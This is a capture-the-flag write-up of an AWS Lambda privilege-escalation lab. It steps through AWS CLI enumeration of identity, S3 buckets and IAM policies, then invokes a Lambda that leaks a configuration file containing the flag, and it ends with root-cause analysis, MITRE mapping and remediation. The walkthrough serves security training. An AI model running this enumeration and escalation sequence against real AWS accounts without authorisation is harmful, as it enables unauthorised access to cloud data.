


# AWS Lambda Privilege Escalation — Solution

## Objective

Exploit a Lambda invocation permission to access sensitive data hidden within the AWS environment.

---

# Step 1 — Configure AWS CLI

Configure the provided credentials.

```bash
aws configure
```

Entered credentials:

```text
AWS Access Key ID:     AKIA****************
AWS Secret Access Key: ********************************
Default region name:   us-east-1
Default output format: json
```

---

# Step 2 — Verify Identity

```bash
aws sts get-caller-identity
```

Output:

```json
{
    "UserId": "AIDAQ3EGUZMEQI6PURZBE",
    "Account": "058264439561",
    "Arn": "arn:aws:iam::058264439561:user/developer1"
}
```

Observation:

- Current user is `developer1`
- Account ID identified
- IAM enumeration possible

---

# Step 3 — Enumerate S3 Buckets

```bash
aws s3 ls
```

Output:

```text
2025-05-08 06:39:49 adminerstoragebuk
2025-10-23 00:39:47 automation-event-buk
2024-11-04 04:48:10 lambdamgmtbuk
2024-09-24 07:13:24 securecopbakupbuk1
...
```

Observation:

- Multiple buckets discovered
- No direct object access permissions

---

# Step 4 — Enumerate IAM Policies

```bash
aws iam list-attached-user-policies --user-name developer1
```

Output:

```json
{
    "AttachedPolicies": [
        {
            "PolicyName": "ListUserPoliciesPolicy",
            "PolicyArn": "arn:aws:iam::058264439561:policy/ListUserPoliciesPolicy"
        },
        {
            "PolicyName": "LambdaInvokePolicy",
            "PolicyArn": "arn:aws:iam::058264439561:policy/LambdaInvokePolicy"
        }
    ]
}
```

Observation:

- Lambda invocation permissions exist
- Further policy analysis required

---

# Step 5 — Analyze IAM Policies

## LambdaInvokePolicy

```bash
aws iam get-policy-version \
  --policy-arn arn:aws:iam::058264439561:policy/LambdaInvokePolicy \
  --version-id v1
```

Output:

```json
{
    "PolicyVersion": {
        "Document": {
            "Statement": [
                {
                    "Action": [
                        "lambda:InvokeFunction",
                        "iam:GetUserPolicy",
                        "iam:GetPolicyVersion",
                        "iam:GetPolicy"
                    ],
                    "Effect": "Allow",
                    "Resource": [
                        "arn:aws:lambda:us-east-1:058264439561:function:Bucket-mgmgt-Function",
                        "arn:aws:iam::058264439561:policy/ListUserPoliciesPolicy",
                        "arn:aws:iam::058264439561:policy/LambdaInvokePolicy"
                    ]
                }
            ]
        }
    }
}
```

Observation:

Critical permission identified:

```text
lambda:InvokeFunction
```

Target Lambda:

```text
Bucket-mgmgt-Function
```

---

# Privilege Escalation Path



---

# Step 6 — Invoke Lambda Function

```bash
aws lambda invoke \
  --function-name Bucket-mgmgt-Function \
  output.json
```

Output:

```json
{
    "StatusCode": 200,
    "ExecutedVersion": "$LATEST"
}
```

---

# Step 7 — Read Lambda Response

```bash
cat output.json
```

Output:

```json
{
  "statusCode": 200,
  "body": "\"[default]\\r\\nregion = us-east-1\\r\\noutput = json\\r\\n\\r\\n[profile dev]\\r\\nregion = us-west-2\\r\\noutput = json\\r\\n# This is the dev profile for AWS access.\\r\\n# CWL{Th@nk$_t0_L@mbd@}\\r\\n\""
}
```

---

# Flag

```text
CWL{Th@nk$_t0_L@mbd@}
```

---

# Root Cause Analysis

The IAM user had permission to invoke a Lambda function with elevated access.

The Lambda function exposed sensitive internal configuration data directly to the caller.

This created an indirect privilege escalation path.

---

# Security Issues Identified

## 1. Over-Permissive Lambda Access

The IAM user should not have direct invoke access to sensitive Lambda functions.

---

## 2. Sensitive Data Exposure

The Lambda returned internal configuration content.

Sensitive data should never be returned in Lambda responses.

---

## 3. Improper Privilege Separation

The Lambda execution role had broader permissions than the invoking user.

---

# MITRE ATT&CK Mapping

| Technique | Description |
|---|---|
| T1528 | Steal Application Access Token |
| T1530 | Data from Cloud Storage Object |
| T1619 | Cloud Storage Discovery |
| T1552 | Unsecured Credentials |

---

# Attack Chain



---

# Remediation

- Restrict Lambda invocation permissions
- Apply least privilege to Lambda execution roles
- Prevent sensitive data exposure in responses
- Use resource-based Lambda policies carefully
- Audit IAM policies regularly
- Enable CloudTrail monitoring for Lambda invocation activity

---

# Final Notes

This lab demonstrates how serverless architectures can unintentionally create privilege escalation paths through IAM misconfigurations and overly permissive Lambda execution roles.

Understanding Lambda trust boundaries is critical for modern AWS security assessments.